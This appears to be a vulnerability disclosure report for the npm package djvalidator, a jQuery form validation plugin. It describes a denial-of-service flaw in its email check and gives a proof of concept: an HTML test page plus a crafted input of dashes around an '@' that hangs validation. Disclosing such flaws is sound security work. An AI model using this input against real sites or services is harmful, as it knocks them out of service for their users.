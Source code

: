 **Submission details:**

**Package Manager:** npm
**Affected module:** djvalidator
**Link to published package:** http://djvalidator.blogspot.com/
**Link to GitHub repo:** https://github.com/esneyderg357/DjValidator
**Other vulnerability type:** 
**Severity level:** High
**Module Description:** DjValidator	-	jQuery form validation plugin

**Vulnerability Description:**

It allows cause a denial of service when validating crafted invalid emails.



**Steps to reproduce:**

1. Create an HTML file with the following code

```html
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
		<title>DjValidator-validators</title>
		<link rel="stylesheet" href="assets/bootstrap/bootstrap.min.css">
	</head>
	<body>
	
	<h2>DjValidator catalog</h2>
	<div class="row">

	


	<div class="panel panel-default col-md-4">
		<div class="panel-body">
			<form id="form3" class="form-horizontal">
				<fieldset>

				
				<div class="form-group">
				  <label class="col-md-4 control-label" for="textinput">Email (email)</label>  
				  <div class="col-md-8">
				  <input name="textinput" type="text" placeholder="email,*" class="form-control input-md" data-dj-validator="email,*" required> 
				  </div>
				</div>

			
				</fieldset>
				
				<div class="form-group">
				  <label class="col-md-4 control-label" for="singlebutton"></label>
				  <div class="col-md-8">
				    <button type="button" id="validate3" name="singlebutton" class="btn btn-primary">Validate!</button>
				  </div>
				</div>
			
			</form>
		</div>
	</div>
	</div>
	

	

	</body>
	<script type="text/javascript" src="../lib/jquery/jquery.min.js"></script>
	<script type="text/javascript" src="../dist/DjValidator.js"></script>
	<script type="text/javascript">
	
		$.addDjValidator('even','only even numbers.',function($field,args){
			value=parseInt($field.val());
			max=args[1];
			if(value%2!=1||value>max)return false;
			return true;
		});
		
		function isUpperCase($field){
			value=$field.val();
			if(value==value.toUpperCase())return true;
			return false;
		}
		
		$(document).ready(function(){
			$('#validate').click(function(){
				alert($('#form').djValidator('validate'));
			});
			$('#validate2').click(function(){
				alert($('#form2').djValidator('validate'));
			});
			$('#validate3').click(function(){
				alert($('#form3').djValidator('validate'));
			});
			$('#validate4').click(function(){
				alert($('#form4').djValidator('validate'));
			});
			$('#validate5').click(function(){
				alert($('#form5').djValidator('validate'));
			});
			$('#validate6').click(function(){
				alert($('#form6').djValidator('validate'));
			});
			$('#validate7').click(function(){
				alert($('#form7').djValidator('validate'));
			});
			$('#validate8').click(function(){
				alert($('#form8').djValidator('validate'));
			});
			$('#validate9').click(function(){
				alert($('#form9').djValidator('validate'));
			});
			$('#clean').click(function(){
				$('form').djValidator('clean');
			});
		});
		
	</script>
</html>
```

2. Input string  --@------------------------------------------------------------------------------------------------------------------------!
3. Click the Validate button



You can execute  `./PoC/DjValidator/examples/demo_validators.html`

**Did I contact the maintainer:** No
**Did I open an issue:** No